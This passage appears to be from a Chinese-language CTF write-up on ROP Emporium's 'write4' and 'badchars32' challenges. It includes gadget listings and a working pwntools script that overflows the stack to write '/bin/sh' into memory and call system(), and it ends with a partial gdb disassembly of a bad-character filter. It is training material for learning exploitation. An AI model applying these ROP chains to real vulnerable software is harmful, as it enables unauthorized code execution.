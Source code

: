 ### write4

64 位程序就可以一次性写入了。

```text
$ ropgadget --binary write4 --only "mov|pop|ret"
...
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400893 : pop rdi ; ret
```

```python
from pwn import *

pop_r14_r15 = 0x0000000000400890
mov_r14_r15 = 0x0000000000400820
pop_rdi = 0x0000000000400893
data_addr = 0x0000000000601050
system_plt = 0x004005e0

payload  = "A"*40
payload += p64(pop_r14_r15)
payload += p64(data_addr)
payload += "/bin/sh\x00"
payload += p64(mov_r14_r15)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(system_plt)

io = process('./write4')
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```

### badchars32

在这个挑战中，我们依然要将 `/bin/sh` 写入到进程内存中，但这一次程序在读取输入时会对敏感字符进行检查，查看函数 `checkBadchars()`：

```text
gdb-peda$ disassemble checkBadchars
Dump of assembler code for function checkBadchars:
   0x08048801 <+0>:     push   ebp
   0x08048802 <+1>:     mov    ebp,esp
   0x08048804 <+3>:     sub    esp,0x10
   0x08048807 <+6>:     mov    BYTE PTR [ebp-0x10],0x62
   0x0804880b <+10>:    mov    BYTE PTR [ebp-0xf],0x69
   0x0804880f <+14>:    mov    BYTE PTR [ebp-0xe],0x63
   0x08048813 <+18>:    mov    BYTE PTR [ebp-0xd],0x2f
   0x08048817 <+22>:    mov    BYTE PTR [ebp-0xc],0x20
   0x0804881b <+26>:    mov    BYTE PTR [ebp-0xb],0x66
   0x0804881f <+30>:    mov    BYTE PTR [ebp-0xa],0x6e
   0x08048823 <+34>:    mov    BYTE PTR [ebp-0x9],0x73
   0x08048827 <+38>:    mov    DWORD PTR [ebp-0x4],0x0
   0x0804882e <+45>:    mov    DWORD PTR [ebp-0x8],0x0
   0x08048835 <+52>:    mov    DWORD PTR [ebp-0x4],0x0
   0x0804883c <+59>:    jmp    0x804887c <checkBadchars+123>
   0x0804883e <+61>:    mov    DWORD PTR [ebp-0x8],0x0
   0x08048845 <+68>:    jmp    0x8048872 <checkBadchars+113>
   0x08048847 <+70>:    mov    edx,DWORD PTR [ebp+0x8]
   0x0804884a <+73>:    mov    eax,DWORD PTR [ebp-0x4]
   0x0804884d <+76>:    add    eax,edx
   0x0804884f <+78>:    movzx  edx,BYTE PTR [eax]
   0x08048852 <+81>:    lea    ecx,[ebp-0x10]
   0x08048855 <+84>:    mov    eax,DWORD PTR [ebp-0x8]
```